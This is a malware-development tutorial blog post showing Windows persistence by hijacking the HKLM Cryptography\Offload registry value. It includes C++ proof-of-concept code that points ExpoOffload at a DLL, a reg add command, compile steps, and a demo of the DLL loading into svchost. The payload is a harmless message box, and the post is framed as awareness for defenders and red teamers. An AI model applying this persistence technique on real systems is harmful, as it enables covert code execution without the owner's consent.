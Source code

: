 ```yaml
---
title:  "Malware development: persistence - part 16. Cryptography Registry Keys. Simple C++ example."
date:   2022-10-21 03:00:00 +0300
header:
  teaser: "/assets/images/76/2022-10-21_05-25.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/76/2022-10-21_05-25.png){:class="img-responsive"}    

This post is the just result of self-researching one of the interesting malware persistence trick: via Cryptography Registry Key.     

In the course of studying the registry, I came across an interesting path:     

`HKLM\Software\Microsoft\Cryptography\`     

And there is a such function `OffloadModExpo`. If I understand correctly, this function is used to perform all modular exponentiations for both public and private key operations:     

![pers](/assets/images/76/2022-10-21_05-45.png){:class="img-responsive"}    

I didn't go into too much detail, the very opportunity to experiment with this key and value in the Windows registry is enough for me. So, I tried to hijacking this DLL path:    

`HKLM\Software\Microsoft\Cryptography\Offload` and key value.    

### practical example

First of all, as usually, create "evil" DLL. As usually, just `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - malicious DLL
DLL hijacking Cryptography registry path
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Compile it:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![pers](/assets/images/76/2022-10-21_05-20.png){:class="img-responsive"}    

And create Proof-of-Concept code for hijacking (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That's all I need for experiment.      

### demo

Let's go to see everything in action. Compile our Proof-of-Concept code:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/76/2022-10-21_05-21.png){:class="img-responsive"}    


Then, for the purity of experiment, check registry keys in the victim’s machine and delete keys if exists:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](/assets/images/76/2022-10-21_05-23.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:     

![pers](/assets/images/76/2022-10-21_05-24.png){:class="img-responsive"}    

And now I'll try to run something. For example, I will try to open `https:\\...` link at the browser or use search bar.    

![pers](/assets/images/76/2022-10-21_05-25_1.png){:class="img-responsive"}    

In the course of performing some cryptographic operations at the background, we will see more and more popups.    

![pers](/assets/images/76/2022-10-21_05-27.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_05-27_1.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_05-28.png){:class="img-responsive"}    

Also I couldn't even run `Process Hacker 2` for investigation of the situation.     

![pers](/assets/images/76/2022-10-21_06-09.png){:class="img-responsive"}    

Then, restore my VM snapshot, run sysinternals `Procmon` with following filters:     

![pers](/assets/images/76/2022-10-21_06-20.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_06-22.png){:class="img-responsive"}    

And as a result:     

![pers](/assets/images/76/2022-10-21_06-24.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_06-25.png){:class="img-responsive"}    

As you can see at some stage my "evil" `meow-meow` DLL loaded by `svchost.exe`, `ProcessHacker.exe` and other processes.     

So, everything is worked correctly. Perfectly! =^..^=     

After end of experiments, restore my registry state:     

![pers](/assets/images/76/2022-10-21_05-33.png){:class="img-responsive"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/2022-10-21-malware-pers-16)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
